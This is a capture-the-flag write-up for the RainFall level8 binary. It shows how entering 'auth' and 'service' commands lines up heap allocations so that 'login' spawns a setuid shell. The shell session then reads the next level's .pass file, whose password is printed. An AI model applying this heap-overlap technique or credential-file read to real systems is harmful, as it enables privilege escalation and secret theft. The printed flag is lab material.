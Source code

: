 level8 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

level8 rights:
```Shell
level8@RainFall:~$ ls -la level8 
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows four things:
- `fgets` takes keywords that have different purposes
- `auth` initialises an `auth` variable with a `malloc()`
- `service` initiliases a `service` variable with `strdup()`
- the keyword `login` opens a shell if auth[32] is different from 0

The goal is therefore to modify the value at auth[32] to access the shell. 32 is auth + 8, casted as a DWORD (4bytes).
When you launch the program, it prints our `auth` and `service` variables address.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil)
```

Initialising them with random values allow us to see that they are next to each other on the heap.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil) 
auth coucou
0x804a008, (nil) 
service 1
0x804a008, 0x804a018 
```
Doing the address of `service 1`(0x804a018) - `auth coucou`(0x804a008) = 16, which means that if we add another `service`, we reach 32 and can finally call `login` to get the password.

```Shell
service 2
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```